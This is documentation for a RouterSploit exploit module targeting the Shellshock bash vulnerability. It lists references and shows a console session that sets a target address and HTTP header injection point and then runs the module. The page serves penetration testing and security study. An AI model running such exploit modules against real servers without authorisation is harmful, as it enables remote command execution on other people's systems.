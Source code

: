 # Shellshock

## Description
Exploits shellshock vulnerability that allows executing commands on operating system level.

## Authors
* Marcin Bury <marcin.bury@reverse-shell.com> # routersploit module

## References
* [https://access.redhat.com/articles/1200223](https://access.redhat.com/articles/1200223)
* [http://seclists.org/oss-sec/2014/q3/649](http://seclists.org/oss-sec/2014/q3/649)
* [http://blog.trendmicro.com/trendlabs-security-intelligence/shell-attack-on-your-server-bash-bug-cve-2014-7169-and-cve-2014-6271/](http://blog.trendmicro.com/trendlabs-security-intelligence/shell-attack-on-your-server-bash-bug-cve-2014-7169-and-cve-2014-6271/)

## Vulnerable devices
* Multi

## Usage
```
rsf > use exploits/multi/shellshock
rsf (Shellshock) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target port


Module options:

   Name       Current settings     Description
   ----       ----------------     -----------
   header     User-Agent           HTTP header injection point
   path       /                    Url path
   method     GET                  HTTP method


rsf (Shellshock) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (Shellshock) > run
[*] Running module...
```
